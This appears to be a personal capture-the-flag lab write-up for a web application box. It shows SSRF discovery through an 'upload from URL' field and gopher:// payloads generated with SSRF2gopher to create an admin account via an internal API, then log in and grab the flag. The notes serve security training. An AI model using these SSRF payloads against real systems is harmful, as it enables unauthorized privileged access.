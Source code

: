 
#### Splash Page
- `login` page exists
![[Pasted image 20241208011859.png]]
##### Bottom Splash Page
- `HTML5UP` link
![[Pasted image 20241208012017.png]]
clicking leads to `templates` page - potential `SSTI`
![[Pasted image 20241208012055.png]]

-----

#### Login page
`http://glaucidium/public/user/login`
- create `login`
- regular `login`
![[Pasted image 20241208012335.png]]
able to create an account 
![[Pasted image 20241208012456.png]]
account created
![[Pasted image 20241208012521.png]]
able to login with `test@test.local:test`
![[Pasted image 20241208012554.png]]

#### SSRF testing
right under the `Welcome Test!` are fields that are able to be `edited` or `updated`
![[Pasted image 20241208013435.png]]
`Advanced Information` reveals places to upload files, this is a sign of `SSRF`
![[Pasted image 20241208013459.png]]
testing the `Website Field` with `http://192.168.45.231:8000/test` yields no results to my `python3` server
![[Pasted image 20241208013825.png]]
only updates the profile
![[Pasted image 20241208013932.png]]
the `Update CD or RESUME Method` includes 2 options - `upload file` and `upload from URL`
![[Pasted image 20241208014032.png]]
testing the `upload from URL` with this payload `http://192.168.45.231:8000/test` diplays an error

![[Pasted image 20241208014151.png]]
and yields results on our `python3` server
![[Pasted image 20241208014212.png]]
this is what the `burpsuite` looks like 
![[Pasted image 20241208014254.png]]
#### This is very CTF like. Explanation
when filtering by `/api` in `burpsuite` we can identify the `POST` request that created our user `test@test.local` - now because of this endpoint `/api/user/create` we are expected to assume `/api/admin/create` exists as well.
![[Pasted image 20241208021628.png]]
if we send the `/api/user/create` to repeater and change it to `/api/admin/create` we can see that it exists and we have to be authenticated to interact with it.
![[Pasted image 20241208021819.png]]
luckily we already proved that `SSRF` is a vector above with the `http://192.168.45.231:8000/test`

so to exploit this we are going to `utilize` a tool called `SSRF2gopher` which is utilized to interact with `API` endpoints

![[Pasted image 20241208022055.png]]
Throwing the last payload into the vulnerable `SSRF` field creates the `admintest` user
```bash
___________  _______                 __          
  / __/ __/ _ \/ __/_  |___ ____  ___  / /  ___ ____
 _\ \_\ \/ , _/ _// __// _ `/ _ \/ _ \/ _ \/ -_) __/
/___/___/_/|_/_/ /____/\_, /\___/ .__/_//_/\__/_/   
                      /___/    /_/                  

Created by eMVee 
    
[?] What is the address of the Host? 
127.0.0.1
[?] What port should be used for gopher? 
80
[?] What endpoint should be used for gopher? 
/api/admin/create
[?] What data would you like to post? 
username=admintest&password=admintest

[!] Plain text payload:


gopher://127.0.0.1:80/_POST /api/admin/create HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

username=admintest&password=admintest

[!] URL encoded payload:
gopher://127.0.0.1:80/_POST%20/api/admin/create%20HTTP/1.1%0aHost:%20127.0.0.1%0aContent-Type:%20application/x-www-form-urlencoded%0aContent-Length:%2037%0a%0ausername%3dadmintest%26password%3dadmintest

[!] Double URL encoded payload:
gopher%3a//127.0.0.1%3a80/_POST%2520/api/admin/create%2520HTTP/1.1%250aHost%3a%2520127.0.0.1%250aContent-Type%3a%2520application/x-www-form-urlencoded%250aContent-Length%3a%252037%250a%250ausername%3dadmintest%26password%3dadmintest

[!] Another option that might work via something like BURP:
gopher%3a%2F%2F127.0.0.1%3a80%2F_POST%2520%2Fapi%2Fadmin%2Fcreate%2520HTTP%2F1.1%250aHost%3a%2520127.0.0.1%250aContent-Type%3a%2520application%2Fx-www-form-urlencoded%250aContent-Length%3a%252037%250a%250ausername%3dadmintest%26password%3dadmintest

```
we can see that the account was created
![[Pasted image 20241208022227.png]]now at the `http://glaucidium/public/admin/login` endpoint try to login with `admintest:admintest`
![[Pasted image 20241208022400.png]]
and `local.txt`
![[Pasted image 20241208022417.png]]
